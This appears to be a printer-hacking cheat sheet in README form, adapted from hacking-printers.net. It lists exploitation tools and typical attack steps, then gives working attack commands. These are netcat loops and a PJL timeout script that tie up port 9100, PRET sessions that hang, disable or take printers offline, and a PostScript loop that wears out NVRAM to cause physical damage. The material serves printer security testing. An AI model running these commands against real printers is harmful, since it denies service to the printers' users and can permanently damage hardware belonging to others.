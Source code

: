 # printer-hacking

> Adapted from http://hacking-printers.net/

## Printer Hacking Tools

- [PRET](https://github.com/RUB-NDS/PRET) - Printer Exploitation Toolkit
- [Praeda](https://github.com/percx/Praeda) - Automated Printer Data Harvesting Tool
- [PFT & Hijetter](http://www.phenoelit.org/hp/) - One of the Early Network Printer Exploitation Tools
- [BeEF](https://github.com/beefproject/beef) - Browser Exploitation Framework that can be used for performing [Cross-site printing](http://hacking-printers.net/wiki/index.php/Cross-site_printing)

## Protocols/Languages
- [PostScript](http://hacking-printers.net/wiki/index.php/PostScript)
- [Printer Job Language (PJL)](http://hacking-printers.net/wiki/index.php/PJL)
- [Simple Network Management Protocol (SNMP)](http://hacking-printers.net/wiki/index.php/SNMP)
- [TCP](https://en.wikipedia.org/wiki/Transmission_Control_Protocol)
- [Printer Management Language (PML)](http://hacking-printers.net/wiki/index.php/PML)
- [Internet Printing Protocol (IPP)](http://hacking-printers.net/wiki/index.php/IPP)
- [Line Printer Daemon (LPD)](http://hacking-printers.net/wiki/index.php/LPD)

## Typical Steps

- perform [generic network assessment](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
- information gathering with Praeda
- use the [cheatsheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet) to find and exploit flaws
- use PRET for fun & profit

## Cheatsheet

### [Denial of Service](http://hacking-printers.net/wiki/index.php/Denial_of_service)

#### [Transmission Channel](http://hacking-printers.net/wiki/index.php/Transmission_channel)

- TCP Protocol
- If print jobs are processed in series – which is assumed for most devices – only one job can be handled at a time.
- Setting high timeout value can effectively be used to enhance attack.
- Simple way with nc: `while true; do nc printer 9100; done`
- Set maximum timeout value as in following shell script:

```shell
# get maximum timeout value with PJL
MAX="`echo "@PJL INFO VARIABLES" | nc -w3 printer 9100 |\
  grep -E -A2 '^TIMEOUT=' | tail -n1 | awk '{print $1}'`"
# connect and set maximum timeout for current job with PJL
while true; do echo "@PJL SET TIMEOUT=$MAX" | nc printer 9100; done
```
- With PRET, a sample session to get timeout values would look like below:

```shell
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> env timeout
TIMEOUT=15 [2 RANGE]
       5
       300
```

#### [Document Processing](http://hacking-printers.net/wiki/index.php/Document_processing)

- sending malicious print job to cause DoS
- abuse of allowing infinite loops or calculations that require a lot of computing time can be abused to keep the printer's RIP busy
- With PS and PJL
- Commands with PRET and PostScript: `disable`, `hang`

```shell
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hang
Warning: This command causes an infinite loop rendering the
device useless until manual restart. Press CTRL+C to abort.
Executing PostScript infinite loop in... 10 9 8 7 6 5 4 3 2 1 KABOOM!

./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> disable
Disabling printing functionality
```

- Commands with PRET and PJL: `disable`, `offline`

```shell
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> disable
Printing functionality: OFF

./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> offline "MESSAGE TO DSIPLAY"
Warning: Taking the printer offline will prevent yourself and others
from printing or re-connecting to the device. Press CTRL+C to abort.
Taking printer offline in... 10 9 8 7 6 5 4 3 2 1 KABOOM!
```

#### [Physical Damage](http://hacking-printers.net/wiki/index.php/Physical_damage)

- Using PS and PJL
- On PRET, both PS and PJL mode support `destroy` command
- exploiting finite number of rewrites on NVRAM
- Example PJL: `@PJL DEFAULT COPIES=X` where X is number of copies
- PostScript example

```
/counter 0 def
{ << /Password counter 16 string cvs
     /SystemParamsPassword counter 1 add 16 string cvs
  >> setsystemparams /counter counter 1 add def
} loop
```

